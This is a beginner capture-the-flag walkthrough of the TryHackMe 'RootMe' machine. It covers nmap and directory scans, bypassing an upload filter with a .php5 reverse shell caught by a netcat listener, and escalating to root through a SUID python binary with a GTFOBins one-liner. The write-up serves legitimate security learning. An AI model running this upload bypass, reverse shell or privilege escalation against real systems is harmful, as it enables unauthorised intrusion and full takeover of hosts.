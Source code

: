 # RootMe
A ctf for beginners, can you root me?
![](Images/default_tryhackme.png)
## Task 2
First, let's get information about the target. Here is the **nmap** scan.
```
# Nmap 7.91 scan initiated Mon Jun  7 14:53:05 2021 as: nmap -sC -sV -A -oN nmap/scan 10.10.88.87
Nmap scan report for 10.10.88.87
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  7 14:53:41 2021 -- 1 IP address (1 host up) scanned in 35.82 seconds
```
Seems like we got ssh port open and http port. Let's take look into that web site.

![](Images/web.png)

1. Scan the machine, how many ports are open?
```
 2
```
2. What version of Apache is running? 
```
2.4.29
```
1. What service is running on port 22? 
```
ssh
```
5. What is the hidden directory?

Let's run a dirb or gobuster to find the hidden directory on our website. 

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.scan
START_TIME: Mon Jun  7 15:01:41 2021
URL_BASE: http://10.10.88.87/
WORDLIST_FILES: /opt/seclist/Discovery/Web-Content/raft-medium-directories.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 29984

---- Scanning URL: http://10.10.88.87/ ----
==> DIRECTORY: http://10.10.88.87/js/
==> DIRECTORY: http://10.10.88.87/css/
==> DIRECTORY: http://10.10.88.87/uploads/
==> DIRECTORY: http://10.10.88.87/panel/
```
Seems like we got uploads and something call panel. When we take a look into that panel directory. You can see upload section. This must be our **hidden directory**.

![](Images/panel.png)

## Task 3
Now we got a upload directory. We can use a php-reverse-shell to get a shell. 

We can't upload php files to this website.I tried other extensions such as jpg, and that uploaded successfully. I tried changing the magic number from PHP to jpg of “FF F8 FF DB“. That uploaded the php reverse-shell script but it won’t execute. Then, I realized maybe it is just filtering the .php extension, so I renamed the script to a .php5 extension. And that uploaded successfully and executed and give me a shell. 

![](Images/shell.png)
```bash
┌─[visith@parrot]─[~/CTF/thm/root_me]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.53] from (UNKNOWN) [10.10.88.87] 35046
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:47:11 up 26 min,  0 users,  load average: 0.00, 0.02, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@rootme:/$ ls
ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swap.img  usr  vmlinuz.old
www-data@rootme:/$ 
```

Looks like we got a lot of directories. we can go on by one and search for user.txt or you can use this find command. It will make it fast.
```bash
find / -type f -name user.txt 2>/dev/null
```
Let's see this find command in action.
```bash
www-data@rootme:/$ find / -type f -name user.txt 2>/dev/null
find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
www-data@rootme:/$ cat /var/www/user.txt             
cat /var/www/user.txt
THM{flag_here}
```
Now we need to get to root user. In their hints they told about SUID. Let's take look into it.

```bash
www-data@rootme:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
Looks like python little bit sus. Let's search about python SUID execution on GTFObins. 

![](Images/suid.png)

Let's do it. First you need to get /usr/bin/ directory to execute our command. 
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Let's see it in action.
```bash
www-data@rootme:/usr/bin$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
#  find / -type f -name root.txt
 find / -type f -name root.txt
/root/root.txt
# cat /root/root.txt
cat /root/root.txt
THM{Flag_here}
# 
```

We pwn it... Thx for reading 

